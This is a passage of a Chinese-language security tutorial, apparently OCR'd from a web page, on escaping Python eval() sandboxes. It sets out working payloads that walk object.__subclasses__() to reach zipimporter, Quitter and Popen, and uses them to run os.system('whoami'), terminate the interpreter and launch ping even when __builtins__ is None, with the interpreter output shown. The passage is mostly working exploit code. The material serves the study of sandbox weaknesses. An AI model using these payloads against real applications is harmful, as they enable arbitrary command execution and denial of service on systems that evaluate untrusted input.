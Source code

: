 和 configobj 类似的模块如 urllib，urllib2，setuptools 等都有 os 的内置，理论上使用哪个都行。 如果无法下载 egg 压缩文件，可以下载带有 setup.py 的文件夹，加入：

```Python
	#!python
	from setuptools import setup, find_packages
```

就可以在 dist 文件夹中找到对应的 egg 文件。 绕过 demo 如下：

```Python
	#!python
	>>> env = {}
	>>> env["locals"]   = None
	>>> env["globals"]  = None
	>>> env["__name__"] = None
	>>> env["__file__"] = None
	>>> env["__builtins__"] = None
	>>> users_str = "[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'zipimporter'][0]('E:/internships/configobj-5.0.5-py2.7.egg').load_module('configobj').os.system('whoami')"
	>>> eval(users_str, env)
	win-20140812chjadministrator
	0
	>>> eval(users_str, {}, {})
	win-20140812chjadministrator
	0
```

# 0x03 拒绝服务攻击 1

<hr>

object 的子类中有很多有趣的东西，执行以下代码查看：

```Python
	#!python
	[x.__name__ for x in ().__class__.__bases__[0].__subclasses__()]
```

这里我就不输出结果了，如果你执行的话，可以看到很多有趣的模块，比如 file，zipimporter，Quitter 等。经过测试，file 的构造函数是被解释器沙箱隔离的。 简单的，或者直接使 object 暴露出的子类 Quitter 进行退出：

```Python
	#!python
	>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__
	 == 'Quitter'][0](0)()", {'__builtins__':None})

	C:/>
```

如果运气好，遇到对方程序中导入了 os 等敏感模块，那么 Popen 就可以用，并且绕过**builins**为空的限制，栗子如下：

```Python
	#!python
	>>> import subprocess
	>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-n','1','127.0.0.1'])",{'__builtins__':None})

	>>>
	正在 Ping 127.0.0.1 具有 32 字节的数据:
	来自 127.0.0.1 的回复: 字节=32 时间>>
```
